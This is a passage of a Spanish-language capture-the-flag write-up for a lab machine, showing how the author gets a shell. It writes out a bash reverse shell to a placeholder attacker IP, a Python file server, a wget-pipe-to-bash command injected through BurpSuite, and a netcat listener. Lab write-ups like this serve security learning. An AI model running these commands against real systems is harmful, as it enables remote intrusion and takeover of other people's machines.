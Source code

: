 Primero comprobamos si la máquina tiene **curl o wget**, siendo que solamente tiene **wget**:

<p align="center">
<img src="/assets/images/THL-writeup-zapasguapas/Captura12.png">
</p>

Vamos a guardar la **Reverse Shell** dentro de un archivo al que llamaremos `revShell.sh`:
```bash
bash -i >& /dev/tcp/Tu_IP/443 0>&1
```

Luego, levantamos un servidor con **Python**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y desde **BurpSuite**, vamos a usar **wget** para que ejecute de manera remota nuestra **Reverse Shell**.

Este es el comando:
```bash
wget -qO- http://Tu_IP/revShell.sh | bash
```

Abre una **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Y ejecuta en **BurpSuite** el comando de **wget**:

<p align="center">
<img src="/assets/images/THL-writeup-zapasguapas/Captura13.png">
</p>

